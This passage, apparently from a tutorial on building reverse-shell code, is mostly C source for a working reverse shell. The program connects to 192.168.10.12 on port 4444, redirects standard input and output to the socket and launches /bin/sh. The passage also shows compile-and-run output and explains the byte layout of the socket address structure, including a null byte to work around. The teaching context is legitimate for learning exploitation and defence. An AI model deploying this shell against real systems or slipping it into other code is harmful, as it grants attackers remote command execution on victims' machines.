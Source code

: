 ```
    for (int i = 0; i < sizeof(sa); i++)
        printf(" %02x", p[i]);

    printf("\n");

    dup2(fd, 0);
    dup2(fd, 1);
    dup2(fd, 2);

    execve("/bin/sh", 0, 0);

    return 0;
}

$ gcc main.c -o rshell
$ ./rshell
sizeof(sa) = 16
 02 00 11 5c c0 a8 0a 0c ff ff ff ff ff ff ff ff


```

Note that

```
AF_INET = 2
SOCK_STREAM = 0
4444 = 0x115c
192.168.10.12 => c0:a8:0a:0c


```

This is the data in the first 8 bytes of the sa struct.

There is one **0x00** in the second byte that will have to be dealt similar to the NULL byte at the end of a string.

More interesting is that the last 8 bytes of the struct are not used. It’s not immediately obvious, but the fact that in the first example we did not initialize the struct and in the second case we initialized with **0xff** and it worked both times is a clue.

Instead of a **struct sockaddr_in**, we could just have a byte buffer like this

```
#include <unistd.h>
#include <sys/socket.h>

int main()
{
    unsigned char sa[16] = {
        0x02, 0x00, 0x11, 0x5c, 0xc0, 0xa8, 0x0a, 0x0c,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00 };

    int fd = socket(AF_INET, SOCK_STREAM, 0);

    connect(fd, (struct sockaddr *)&sa, sizeof(sa));

    dup2(fd, 0);
    dup2(fd, 1);
    dup2(fd, 2);

    execve("/bin/sh", 0, 0);

    return 0;
}

```